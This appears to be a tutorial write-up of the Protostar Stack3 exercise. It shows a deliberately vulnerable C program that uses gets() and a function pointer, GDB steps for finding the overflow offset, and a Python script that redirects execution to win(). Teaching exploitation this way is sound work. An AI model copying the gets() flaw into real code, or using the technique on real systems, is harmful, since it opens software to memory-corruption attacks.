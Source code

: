 # Protostar Stack3

Like the last couple problems on stack, this problem gives us the source code below:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Where `win()` seems to be the objective function to execute. This program is once again using gets for its arguments, much like the last couple problems. This time, however, instead of passing a check for a particular condition, the program will simply call the overwritten variable. The variable `fp` itself is initialized as an integer pointer, which will call anything at the specified address when called as a function.

The objective of this problem is to modify the `fp` variable in such a way that it includes the address for the `win()` function.

## Initial Surveying

So, to GDB we go:
> gdb stack3

Examine the memory at win function:
> x win

Which returns `0x8048424 <win>:	0x83e58955`, which should be where the win function is located in memory. Like always, set the disassembler flavor to intel for easier reading, and take a look inside main:
> set disassembly-flavor intel

> disassemble main

which reveals: `0x0804843e <main+6>:	sub    esp,0x60`, implying that like the previous problems, hex 60 bytes are allocated to the stack by setting `esp`, stack pointer value. `0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0` following means that the space for `fp` variable is made with hex 5c offset from the stack pointer, making it susceptible to overflow. Later on, `0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0` checks if the value is still zero, and if not, `0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]` moves the value of `fp` to `eax`, and `0x08048475 <main+61>:	call   eax` calls whatever is on the address specified.

Set a break point on the last call function and run:
> break *0x08048475

> r

and input a bunch of text when prompted:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

which returns:
> calling function pointer, jumping to 0x41414141

Take a look at the register values with
> info registers

Sure enough, the first line specifies `eax            0x41414141	1094795585`, meaning that the eax values have been overwritten with a bunch of 41s, which is the hex value for A. So now, the program should call this address, and prompt it to call whatever is located there. Continue execution with:
> c

Which returns:

```
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Which makes sense, as `0x41414141` is a bogus value as an address, causing segmentation fault.

## Figuring out a correct input (Writing the actual 'exploit')

So how do we change that to an actual address, namely where `win()` is located?

We begin by figuring out which offset determines the address to access. Start by making a simple python script that just prints a bunch of letters.
```
print("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT")
```

Pipe the output of the python script into another file so we don't have to execute it everytime:
> python stack3_exploit.py > exp

`cat exp` will print the string. Now, back in GDB, run the function with the contents of `exp` as input arguments with
> r < /tmp/exp

Once we get to the break point, take a look at the register values again to see `eax            0x51515151	1364283729`, meaning that eax values were changed to 51s, which is the hex value for the character Q (chr(x51) for python). This means that out of the strings we specified in the above script, the `QQQQ` denotes the address that we have to jump to.

Modify the former script to the one below:
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
padding += "\x24\x84\x04\x08" # Ascii representation of 0x8048424
print padding
```
`\x{num}` is the ascii escape. The ascii representation is backwards because this binary format is ***little endian***.

Run the gdb again with the output of the script as arguments, and the register value for of `eax` should be the address location of the `win()` function. Finally, the function returns `code flow successfully changed`, denoting successful manipulation.
